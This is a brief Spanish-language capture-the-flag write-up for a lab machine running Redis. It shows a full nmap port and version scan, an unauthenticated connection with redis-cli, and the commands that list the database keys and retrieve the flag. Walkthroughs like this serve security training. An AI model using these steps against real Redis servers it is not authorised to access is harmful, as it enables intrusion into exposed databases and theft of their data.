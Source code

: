 1. **Escaneamos todos los puertos (0-65535) y determinamos los servicios y versiones que se están ejecutando en los puertos abiertos.**
```bash
nmap -p- -sV [target ip]
```
--> port 6379/tcp - open - redis


2. **Vemos que está abierto redis y usamos redis-cli para conectarnos al objetivo**
```bash
redis-cli -h [target ip]
```
--> **MACHINE PWNED!**


3. **Dentro hacemos info para ver la información de la base de datos de redis y vemos que hay 4 claves. Hacemos `keys *` para ver las 4 claves que hay. Obtenemos la flag y nos la traemos a nuestra máquina.** 
```shell
[target ip:6379]> info
	# Keyspace
	db0:keys=4,expires=0,avg_ttl=0

[target ip:6379]> keys *
	1) "numb" / 2) "stor" / 3) "flag" / 4) "temp"

[target ip:6379]> get flag
```
--> Transfer completed!